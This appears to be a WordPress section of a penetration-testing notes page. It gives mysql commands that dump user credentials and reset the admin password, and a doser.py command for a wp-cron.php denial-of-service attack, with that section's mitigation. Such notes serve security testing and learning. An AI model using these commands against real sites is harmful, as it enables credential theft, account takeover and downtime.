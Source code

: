 ## Interesting files

If somehow we get our hands on wp-config.php, then we will be able to see credentials to database. 


## Post Exploitation

Extract usernames and passwords:

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Change admin password:

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"
```

## wp-cron.php attack

The WordPress application is vulnerable to a Denial of Service (DoS) attack via the wp-cron.php script. This script is used by WordPress to perform scheduled tasks, such as publishing scheduled posts, checking for updates, and running plugins.

An attacker can exploit this vulnerability by sending a large number of requests to the wp-cron.php script, causing it to consume excessive resources and overload the server. This can lead to the application becoming unresponsive or crashing, potentially causing data loss and downtime.

Steps to Reproduce:

- Get the doser.py script at https://github.com/Quitten/doser.py
- Use this command to run the script:

```
python3 doser.py -t 999 -g 'https://█████/wp-cron.php'
```

- Go to https://████ after 1000 requests of the doser.py script. The site returns code 502. See the video PoC.


To mitigate this vulnerability, it is recommended to disable the default WordPress wp-cron.php script and set up a server-side cron job instead.  
Here are the steps to disable the default wp-cron.php script and set up a server-side cron job:

1. Access your website’s root directory via FTP or cPanel File Manager.
2. Locate the wp-config.php file and open it for editing.
3. Add the following line of code to the file, just before the line that says “That’s all, stop editing! Happy publishing.”:

```
define('DISABLE_WP_CRON', true);
```

4. Save the changes to the wp-config.php file.
5. Set up a server-side cron job to run the wp-cron.php script at the desired interval. This can be done using the server’s control panel or by editing the server’s crontab file.


## Tools


[wpscan](wpscan.md)
